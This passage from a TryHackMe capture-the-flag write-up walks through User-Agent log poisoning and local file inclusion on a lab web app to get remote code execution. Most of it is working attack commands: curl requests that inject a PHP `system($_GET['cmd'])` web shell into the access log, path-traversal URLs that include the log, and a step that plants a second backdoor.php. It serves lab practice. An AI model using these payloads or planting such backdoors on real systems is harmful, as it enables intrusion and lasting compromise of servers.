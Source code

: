 Log in with the creds and navigate to recover password

flag: `THM{552f313b52e3c3dbf5257d8c6db7f6f1}`

## Flag 5 - RCE

### POC RCE

Navigate to log access and see the format of the log to be `user:ip:USER-Agent:Page.` The log file location is at `./includes/logs/app_access.log`

Sending curl request `curl -A "hacker-user-agent" http://10.10.204.37` results in logs showing our user agent `Guest:172.17.0.1:hacker-user-agent:/`

We can use user agent field. Include php in the user-agent

Sending `curl -A "<?php phpinfo()?>" http://10.10.204.37` results in in user agent present `Guest:172.17.0.1::/`. This means php has been rendered. Viewing log page via browser shows php infor page `https://10.10.204.37/index.php?err=./includes/logs/app_access.log` (without being logged in)

Sending backdoor curl command `curl -A "<?php echo 'hayyy        ';system(\$_GET['cmd']);?>" http://10.10.204.37/index.php`. This creates a php code into the log file that will allow us to use the cmd param to execute code

Visit `http://10.10.204.37/index.php?err=../../../../var/www/html/includes/logs/app_access.log` shows an error in the log entry
```
Guest:172.17.0.1:hayyy
Warning
: system() [
function.system
]: Cannot execute a blank command in
/var/www/html/includes/logs/app_access.log
on line
4
```

Visit `http://10.10.204.37/index.php?err=../../../../var/www/html/includes/logs/app_access.log&cmd=whoami` with cmd `whoami` supplied shows RCE works
```
Guest:172.17.0.1:hayyy www-data :/index.php
```

### Add a second backdoor - backdoor.php

Visit `10.10.204.37/index.php?err=../../../../var/www/html/includes/logs/app_access.log&cmd=echo '<?php echo 'hayyy        ';system(\$_GET['cmd']);?>' > backdoor.php` to create a file `backdoor.php` with our php code 

Visit `http://10.10.204.37/backdoor.php` shows 
```
hayyy
Warning: system() [function.system]: Cannot execute a blank command in /var/www/html/backdoor.php on line 1
```
